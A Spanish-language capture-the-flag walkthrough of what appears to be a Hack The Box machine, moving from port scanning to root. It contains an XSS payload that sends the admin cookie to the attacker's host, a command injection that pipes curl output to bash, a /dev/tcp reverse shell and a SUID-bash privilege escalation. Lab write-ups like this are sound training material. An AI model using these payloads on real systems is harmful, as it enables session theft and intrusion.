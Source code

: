 
Primero realzaremos un escaneo de puertos con nmap.
`sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.8 -oN escaneo`
![[Pasted image 20240424100119.png]]

Seguidamente al ver que esconde el puerto 5000, para ello introducimos la ip seguida de dos puntos con el puerto.
![[Pasted image 20240424100249.png]]

Vemos que esconde una web. Para ello haremos un fuzzing con dirsearch.
`dirsearch -u http://10.10.11.8:5000/`
![[Pasted image 20240424100701.png]]

Entraremos a ver que esconde la pagina support.
![[Pasted image 20240424100826.png]]

Veamos que tiene un formulario, veremos que hace si se lo rellenamos todo.
![[Pasted image 20240424101018.png]]

Que hay un overflow, cuando sucede esto, podemos atacarlo con XSS. Para ello abriremos burpsuite para interceptar la petición al servidor.
![[Pasted image 20240424101405.png]]

Una vez no tenemos, volveremos a nuestra consola, y abriremos un servidor python para que nos mande la cookie de sesión de administrador a nuestra máquina.
`python3 -m http.server 80`
![[Pasted image 20240424101532.png]]

Una vez estamos a la escucha, volveremos al burpsuite y pondremos la siguinte sintaxis de JavsScript en "User Agent" y en el el mensaje de abajo. 
`<img src=x onerror=fetch('http://10.10.14.68/?c='+document.cookie);>`
![[Pasted image 20240424101911.png]]

Lo mandaremos al repeter y lo enviaremos al rervidor, si todo va bien, en menos de un minuto nos tiene que dar la cookie de sesión en el servidor python.
![[Pasted image 20240424102247.png]]
Al ver este mensaje, es buena señal, así que iremos la consola y esperaremos un minuto.
![[Pasted image 20240424102342.png]]

Nos guardaremos la cookie para luego poder suplantarla. Cerraremos el burpsuite y volveremos a la paguina inicial de la web. Retomando el fuzzing de antes, a parte de suport, teniamos una página llamada dashboard, entraremos en ella.
![[Pasted image 20240424102646.png]]

Nos sale que no estamos autorizados, pero no hay problema porque tenemos la cookie de administrador, asi que solo nos queda suplantarla. Para ello iremos a inspeccionar --> storage.
![[Pasted image 20240424102839.png]]

Alli pegamos la nueva cookie en la que hay, de tal forma que se sobreescriba.
![[Pasted image 20240424102927.png]]

Reiniciaremos la página. Y veremos la página al 100%, ahora intentaremos poder conseguir la shell del servidor, para ello vamos a interceptar la peticion con burpsuite.
![[Pasted image 20240424103730.png]]

Irmos al la consola y crearemos un harchivo html con contenido bash para poder ejecutar una reverse shell en el servidor.
`#!/bin/bash`
`sh -i >& /dev/tcp/10.10.14.68/4444 0>&1`
![[Pasted image 20240424103933.png]]

Una vez lo tengamos, volveremos a encender un servidor python para poder hostear el archivo.
![[Pasted image 20240424104216.png]]

Abriremos otro terminal y nos pondremos a la escucha con netcat en el puerto que hemos elegido.
`nc -lvnp 4444`
![[Pasted image 20240424104342.png]]

Una vez lo tenemos, iremos al burpsuite y en date pondremos un ";" y pondremos el siguiente comando , lo mandaremos al repeter y lo enviaremos, con esto tendremos la shell.
`curl 10.10.14.68/index.html | bash`
![[Pasted image 20240424104600.png]]
![[Pasted image 20240424104625.png]]
Si al darle a enviar el botón send se nos pone de color gris, sera buena señal porque tendremos la shell.
![[Pasted image 20240424104714.png]]
En el dolar escribiremos el siguiente comando para ver la ruta.
`script /dev/null -c bash`
![[Pasted image 20240424104823.png]]

Con esto ya estaremos dentro, ahora buscaremos la flag de usuario.
![[Pasted image 20240424105032.png]]

Una vez la tenemos, solo nos quedará escalar privilegios, para ello vermos que binarios tienen permiso de root. 
`sudo -l`
![[Pasted image 20240424105222.png]]

Vemos que tiene este binario con permisos de administrador. Miraremos el contenido del binario para ver si obtenemos una pista.
`strings /usr/bin/syscheck`
![[Pasted image 20240424105522.png]]

Vemos que tiene un archivo bash, le añadiremos el script `chmod u+s /bin/bash` dentro de el archivo para poder ejecutar lo que queramos. Para ello haremos:
`echo "chmod u+s /bin/bash">initdb.sh`
![[Pasted image 20240424110607.png]]

Seguidamente, le daremos permisos al archivo bash y lo ejecutaremos.
![[Pasted image 20240424110733.png]]

Finalmente lo ejecutaremos.
`./initdb.sh`
![[Pasted image 20240424111034.png]]
Finalmente ejecutaremos un comando mas para tener acceso root.
`/bin/bash -p`
![[Pasted image 20240424111222.png]]
